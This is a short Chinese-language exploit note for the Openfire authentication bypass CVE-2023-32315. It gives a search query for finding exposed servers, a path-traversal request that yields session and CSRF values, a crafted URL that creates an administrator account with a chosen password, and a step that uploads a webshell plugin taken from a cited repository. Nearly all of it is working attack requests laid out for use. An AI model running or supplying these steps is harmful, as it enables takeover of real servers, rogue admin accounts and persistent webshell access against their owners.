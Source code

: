 # Openfire 身份认证绕过漏洞 CVE-2023-32315

## 网络测绘

hunter: web.title="openfire"

## POC / EXP

1. 访问地址获取头部Set-Cookie中的JSESSIONID和csrf值

```
/setup/setup-s/%u002e%u002e/%u002e%u002e/user-groups.jsp
```

2. 创建用户名

```
/setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?create=%E5%88%9B%E5%BB%BA%E7%94%A8%E6%88%B7&csrf=0oz0wRTbxxNtYkS&email&isadmin=on&name&password=l1xjt2&passwordConfirm=l1xjt2&username=arp263
```

请求头添加第一步获取的值

```
Cookie: JSESSIONID=node017ellkizg4zfojhnjo1xrwtmb47.node0
Cookie: csrf=0oz0wRTbxxNtYkS
```

3. 获取webshell

```
https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass
上传org.jivesoftware.openfire.plugin.CVE-openfire-plugin-assembly.jar
pass:123
```